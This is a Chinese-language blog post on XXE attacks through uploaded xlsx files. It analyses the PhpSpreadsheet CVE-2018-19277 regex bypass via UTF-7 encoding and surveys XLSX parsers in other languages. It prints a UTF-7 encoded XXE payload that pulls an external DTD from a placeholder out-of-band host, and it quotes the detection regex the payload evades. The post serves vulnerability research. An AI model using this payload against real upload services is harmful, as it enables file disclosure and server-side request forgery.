






# xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。

解压xlsx得到一堆xml文件。

解压后的结构

aaaa...

test-sheet1

直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变

但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities
解析库：tealeg/xlsx
360EntSecGroup-Skylar/excelize


## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种